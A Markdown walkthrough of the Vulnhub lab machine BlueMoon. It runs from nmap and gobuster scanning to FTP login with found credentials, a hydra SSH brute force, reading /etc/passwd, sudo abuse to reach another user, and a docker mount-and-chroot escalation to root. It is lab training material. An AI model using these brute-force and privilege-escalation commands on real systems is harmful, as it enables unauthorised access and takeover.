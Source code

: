 # BlueMoon: Vulnhub Walkthrough

## Scanning

Let's start with scanning
**nmap 192.168.122.140**

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled.png)

**nmap -sV -A 192.168.122.140** (Service version scan)

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%201.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%201.png)

## Enumeration

Open port 80 in browser http://192.168.122.140/

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%202.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%202.png)

Lets find out directories using gobuster

**gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.122.140/**

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%203.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%203.png)

**Found directory hidden_text

Opening it in browser **http://192.168.122.140/hidden_text**

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%204.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%204.png)

When clicking on thank you it redirects to QR code.

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%205.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%205.png)

Decoding QR to text

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%206.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%206.png)

**Found ftp port user and password

Now connecting to ftp using **userftp:ftpp@ssword**

**ftp 192.168.122.140**

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%207.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%207.png)

**ls**

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%208.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%208.png)

**Found two files information.txt and p_lists.txt

Downloading both file

**get information.txt (Download file to attacker machine)**

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%209.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%209.png)

**cat information.txt (Reading file in attacker machine)**

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2010.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2010.png)

**It giving hint about password list and user is robin

**get p_lists.txt** 

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2011.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2011.png)

**cat p_lists.txt (List of password)**

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2012.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2012.png)

## Exploitation

Bruteforcing ssh using password list which we found earlier.

**hydra -l robin -P p_lists.txt 192.168.122.140 ssh**

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2013.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2013.png)

Found password for user robin

**ssh robin@192.168.122.140**

**id**

**uname -a**

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2014.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2014.png)

**cat /etc/passwd**

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2015.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2015.png)

Found one more user jerry

**ls -al**

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2016.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2016.png)

Found flag user1.txt

**cat user1.txt**

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2017.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2017.png)

## Privilege escalation

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2018.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2018.png)

robin user can run file [feedback.sh](http://feedback.sh) with priviliege of user jerry

**sudo -u jerry /home/robin/project/feedback.sh**

**bash**

**id**

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2019.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2019.png)

Got shell for jerry user

**python -c "import pty;pty.spawn('/bin/bash');"**

**cd /home/jerry**

**ls -al**

Found flag2 user2.txt

**cat user2.txt**

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2020.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2020.png)

**id**

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2021.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2021.png)

Privilege escalation using docker

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2022.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2022.png)

**docker run -v /:/mnt --rm -it alpine chroot /mnt sh**

Got shell for root user

**id**

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2023.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2023.png)

**cd /root**

**ls -al**

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2024.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2024.png)

**cat root.txt**

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2025.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2025.png)
